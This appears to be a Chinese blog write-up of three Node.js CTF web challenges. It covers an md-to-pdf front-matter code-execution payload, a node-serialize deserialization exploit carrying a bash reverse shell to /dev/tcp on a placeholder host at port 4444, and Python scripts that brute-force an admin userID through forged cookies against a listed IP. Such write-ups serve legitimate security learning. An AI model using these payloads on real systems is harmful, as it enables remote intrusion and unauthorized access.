 ```yaml
---
layout: post
title: js测验
categories: [blog ]
tags: [JavaScript,]
description: "测验"
image:
  feature: windows.jpg
  credit: Azeril
  creditlink: azeril.com
 
---
```


`测试`

![](/img/swirl/11.jpg)

## web1

题目是直接给出附件的，大概的功能就是一个md转pdf

网上搜了一下确实有漏洞

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

![image-20230928091608629](..\img\final\image-20230928091608629.png)

![image-20230928092224117](..\img\final\image-20230928092224117.png)

可是一直报错。。不理解

```java
{"markdown_content":"---js\n((require(\"child_process\")).execSync(\"whoami\"))\n---RCE"}
```

## web2

一个js反序列化的题目

```java
var express = require('express');//这个就一个js文件
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var bodyParser = require('body-parser');
var app = express();
var path = require('path');
app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));
app.set('view engine', 'ejs');

app.get('/', (req,res) => {
	res.render('home.ejs');//渲染home.ejs
});

app.post('/', (req,res) => {
	res.render('loggedin.ejs')
});

app.get('/guest', function(req, res) {
   res.render('guest.ejs');
});

app.post('/guest', function(req, res) {
   if (req.cookies.guest) {//提取guest中的cookie
   	var str = new Buffer(req.cookies.guest, 'base64').toString();//base64加密
   	var obj = serialize.unserialize(str);//这里反序列化没太看懂
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username //输入username
	 var country = req.body.country  //输入country
 	 var city = req.body.city   // 输入city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
app.listen(process.env.PORT || 7777);
console.log("Listening on port 7777...");
```

很明显看出来就是一个serialize的问题

https://zhuanlan.zhihu.com/p/25581847

https://cloud.tencent.com/developer/article/1374840

payload

```
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('bash -c \"bash -i >&
/dev/tcp/4vps/4444 0>&1\"',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}  
```

## web3

```javascript
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")// 猜测漏洞是ejs模板的问题，然后flag再 env中
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [//这里看着像定义用户信息之类的
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "****",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")//这里获得的就是当前的对象
    //需要我们传一个userData名字的cookie
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {//这是判断cookies中userData字段 继续userId
        const {userID, username} = req.cookies.userData//传送一个json

        if(req.cookies.userData.userID === admin.userID) //这里因为本来的userid就是不可见的
            res.render("home.ejs", {username: username, flag: process.env.FLAG})//这里如果满足才会出现flag
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```

流程非常简单

其实就是判断输入的cookie中的	userid是否和 管理员中的userid值相等，如果相等就会返回flag

看了看有没有原型链污染的漏洞，最后发现没有，所以尝试爆破userid



`一开始自己写的脚本` (不忍直视)

```python
import requests
a="0123456789"
for i in a :
    for j in a:
        for n in a:
            for m in a:

                 string={"username":"JYcxk","userID":i+j+n+m}
                 url="http://43.129.87.71:10003/"
                 res=requests.get(url=url,json=string)
                 if "{" in res.text:
                  print(res.text)
```

参考了以下✌的发现，需要先登陆看下cookie（源码给出了一个账号用来登陆）

```python
import requests
url="http://43.129.87.71:10003/"
for i  in range(100,1000):
    cookie={"userData":f"j%3A%7B%22userID%22%3A%22{i}%22%2C%22username%22%3A%22kupatergent%22%7D"}
    res=requests.get(url,cookies=cookie)
    if 'flag{' in res.text:
        print(res.text)
        break
```

![image-20230928161455123](..\img\final\image-20230928161455123.png)

```
j%3A%7B%22userID%22%3A%22{}%22%2C%22username%22%3A%22kupatergent%22%7D
```

![image-20230928161903282](..\img\final\image-20230928161903282.png)

![](..\img\final\image-20231003135457779.png)

![image-20231003144021175](..\img\final\image-20231003144021175.png)